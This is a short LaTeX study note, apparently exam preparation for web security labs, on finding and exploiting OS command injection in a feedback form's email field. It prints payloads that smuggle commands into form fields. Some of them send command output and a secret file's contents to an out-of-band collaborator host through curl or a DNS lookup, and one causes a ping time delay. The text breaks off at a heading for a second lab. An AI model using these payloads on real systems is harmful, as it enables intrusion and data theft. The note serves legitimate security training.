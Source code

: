 \documentclass[
  letterpaper,
]{article}
\newcommand{\passthrough}[1]{#1}
\begin{document}
\section{OS command injection}\label{os-command-injection}

\subsection{Approach}\label{approach-9}

\textbf{ATTENTION:} If you got the right answer with
\passthrough{\lstinline!email=||curl+burp.oastify.com?c=`whoami`||!}
payload \textbf{ON THE LABS} and you don\textquotesingle t know any
others - you will fail this step on exam. Maybe I am too stupid, but I
failed my first exam attempt only because of this. I tried my payload
(that worked for me on the lab) and it didn\textquotesingle t work on
exam. Please, learn that you can exfiltrate data as part of your burp
collaborator subdomain, like:
\passthrough{\lstinline!nslookup -q=cname $(cat /home/carlos/secret).burp.oastify.com!}
payload, even, if you get only DNS callbacks.

The place to find OS Injection is in \textbf{Submit Feedback} page,
usually in email input, but, just in case, scan the other inputs too:\\
\begin{quote}
\textbf{IMAGE PLACEHOLDER:} Insert the corresponding source image here in a later revision.
\end{quote}
\subsection{Labs}\label{labs-8}

\subsubsection{1. Blind OS command injection with time
delays}\label{1-blind-os-command-injection-with-time-delays}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
email=x||ping+-c+10+127.0.0.1||
\end{Verbatim}

\subsubsection{2. Blind OS command injection with output
redirection}\label{2-blind-os-command-injection-with-output-redirection}
\end{document}
